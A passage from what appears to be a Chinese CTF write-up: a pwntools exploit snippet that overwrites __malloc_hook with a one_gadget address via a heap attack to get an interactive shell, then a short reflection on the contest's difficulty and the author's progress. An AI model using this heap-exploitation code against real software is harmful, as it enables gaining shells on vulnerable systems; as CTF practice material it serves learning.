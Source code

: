 ```python
#print hex(malloc_hook)
log.success("__malloc_hook:%s"%hex(malloc_hook))
change(3,p64(malloc_hook-0x23))
add('a'*0x60)
one_gadget = libc_base + 0x4526a
payload='a'*0x13
payload+=p64(one_gadget)
payload=payload.ljust(0x60,'a')
add(payload)
#gdb.attach(p)
p.sendline('1\n')
p.recv(4096)
p.interactive()
```



## 总结

这次国赛pwn和逆向都还是比较友好的，难度呈梯度上升，有层次感，相对去年国赛，感觉自己进步还是很大的，一年过去了，人生有几个一年呢？加油加油！

